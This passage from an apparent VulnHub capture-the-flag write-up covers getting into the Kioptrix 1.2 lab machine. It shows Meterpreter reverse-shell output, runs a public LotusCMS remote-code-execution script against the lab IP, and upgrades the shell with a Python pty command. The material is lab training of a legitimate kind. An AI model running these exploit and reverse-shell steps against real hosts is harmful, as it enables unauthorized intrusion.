 ```bash
[*] Sending exploit ...
[*] Sending stage (38288 bytes) to 10.0.0.204
[*] Meterpreter session 1 opened (10.0.0.168:4444 -> 10.0.0.204:46096) at 2020-07-28 23:31:50 -0400

meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

We got a shell... idk though... I hate using MetaSploit sometimes. Let's see if we can be elitist and find a manual exploit for this vuln, after all it's from `2011`. There's bound to be one.

`~~~Googling~~~`

Okay, 30 seconds later, and we found [this](https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/master/lotusRCE.sh)

Cool, let's try running it:

```bash
ein@~/VulnHub/Kioptrix1.2:$ ./lotusRCE.sh 10.0.0.204 /index.php
```

![Anti-script kiddie](/assets/img/VulnHub/Kioptrix1.2_9.PNG)

And we got a shell as `www-data`.

# Privilege Escalation

There _are_ the two other web login panels that we didn't check out. These might be entry points, but let's continue with our shell and see if there's a path forward to root.

Let's get started by upgrading our shell to a full tty using Python:

```bash
which python
/usr/bin/python
python -c "import pty; pty.spawn('/bin/bash');"
www-data@Kioptrix3:/home/www/kioptrix3.com$ 
```

